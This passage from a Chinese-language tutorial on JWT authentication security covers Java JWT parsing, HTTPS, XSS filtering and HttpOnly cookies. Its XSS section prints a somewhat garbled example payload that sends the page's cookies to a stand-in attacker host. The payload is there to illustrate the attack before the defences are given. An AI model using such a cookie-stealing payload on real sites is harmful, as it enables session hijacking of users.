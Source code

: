 **解码和验证Token码**

```
import javax.xml.bind.DatatypeConverter;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.Claims;
 
//Sample method to validate and read the JWT
private void parseJWT(String jwt) {
//This line will throw an exception if it is not a signed JWS (as expected)
Claims claims = Jwts.parser()        
   .setSigningKey(DatatypeConverter.parseBase64Binary(apiKey.getSecret()))
   .parseClaimsJws(jwt).getBody();
System.out.println("ID: " + claims.getId());
System.out.println("Subject: " + claims.getSubject());
System.out.println("Issuer: " + claims.getIssuer());
System.out.println("Expiration: " + claims.getExpiration());
}
```

### 基于JWT的Token认证的安全问题

#### 确保验证过程的安全性

如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

#### 如何防范XSS Attacks

浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：

```
<img src="x" /> a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"
```

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？

- **XSS攻击代码过滤**
  移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；
- **采用HTTP-Only Cookies**
  通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；
  如何在Java中设置cookie是HttpOnly呢？
  Servlet 2.5 API 不支持 cookie设置HttpOnly
  http://docs.oracle.com/cd/E17802_01/products/products/servlet/2.5/docs/servlet-2_5-mr2/
  建议升级Tomcat7.0，它已经实现了Servlet3.0
  http://tomcat.apache.org/tomcat-7.0-doc/servletapi/javax/servlet/http/Cookie.html
  或者通过这样来设置：

```
//设置cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");

//设置多个cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");
response.addHeader("Set-Cookie", "timeout=30; Path=/test; HttpOnly");

//设置https的cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; Secure; HttpOnly");
```
